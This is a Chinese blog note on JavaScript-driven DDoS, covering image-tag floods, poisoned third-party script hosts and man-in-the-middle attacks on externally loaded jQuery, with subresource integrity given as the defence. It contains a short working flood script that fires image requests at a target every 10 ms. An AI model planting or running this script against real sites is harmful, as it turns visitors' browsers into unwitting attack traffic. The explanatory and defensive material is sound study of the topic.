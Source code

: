 ```yaml
---
title: DDoS-JavaScript
date: 2019-12-12 15:41:36
tags: [DDoS, Network, JavaScript]
categories: DDoS
description:
password:
---
```










# 关于JavaScript的DDoS攻击





> 引用：
>
> https://www.freebuf.com/news/66447.html





### 该攻击属于应用层攻击



- **Javascript实现DDos攻击原理分析**

> 　　现在网站的交互性都是通过JavaScript来实现的。通过添加JavaScript直接插入HTML元素，或通过远程来加载JavaScript。浏览器会读取script标签中的src属性并运行它所指向的脚本，其实不只是script标签可以用来攻击，简单来说只要是可以跨域访问的标签，如img，link等都可以实现DDos攻击。
>
> 　　既然这些标签可以访问外站的资源，那么我们是不是就可以设个定时器无限访问这个网站，从而达到攻击呢，那是肯定的。



<img src="DDoS-Javascript/1.jpg"  />

如果攻击者在一个网站中嵌入了恶意JavaScript脚本，那么该网站的每一个访客都将成为DDoS攻击中的一员。网站流量越高就意味着DDoS越严重。



**入侵共享JavaScript的第三方服务器**

许多网站使用的都是普通的JavaScript库，为了节约带宽、提升性能，通常还会将JavaScript脚本共享在第三方服务器上。也就是说如果网站上包含有指向第三方服务器的脚本标签，就意味着所有访问该网站的用户都将自动下载JavaScript脚本，并执行。不幸的是，如果攻击者入侵了该第三方服务器并在JavaScript脚本中注入了DDoS攻击代码，那结果可想而知了，所有的访客也将变成DDoS攻击中的一员。



一段简单的JS代码就能发起DoS攻击

```javascript
<head>
<script type='text/javascript'>
function imgflood(){
	//var TARGET = 'victim-website.com'
	var TARGET = "127.0.0.1:12345"
	var URI = '/index?'
	var pic = new Image()
	var rand = Math.floor(Math.random()*1000)
	pic.src = 'http://'+TARGET+URI+'val='+rand
	//pic.src = 'http://'+TARGET+URI+'val='+rand
}
setInterval(imgflood, 10)
alert(pic.src)
</script>
</head>
<body>
f*********************king
<script type='text/javascript'>imgflood()</script>
</body>
```



` setInterval(code, millisec)`:以millisec 毫秒的间隔执行code

由于大部分网页引用jquery是从外部引用的，因此可以从此发起中间人攻击

```html
<script src="https://code.jquery.com/jquery-1.10.2.min.js">
```

预防的话，就是通过script标签支持的属性integrity：这个属性支持验证该js脚本的hash值，确保不会引用来自外部恶意的js脚本

```html
<script src="https://code.jquery.com/jquery-1.10.2.min.js"  
        integrity="sha256-C6CB9UYIS9UJeqinPHWTHVqh/E1uhG5Twh+Y5qFQmYg="
         crossorigin="anonymous">
```





中间人攻击示意图：攻击其中的请求外部js的途径

![](DDoS-Javascript/2.jpg)











------

**在写js-DDoS的问题**：

#### [HTML引入外部js脚本，放在head中不起作用,放在body中才起作用](https://blog.csdn.net/SeekAndFindYou/article/details/82219815)

这是因为加载HTML文档时，先加载了js脚本后就不起作用了。
一般引入外部css文件放在head中，引入外部js脚本放在body中。
先渲染HTML文档(css)，再加载特效(js)



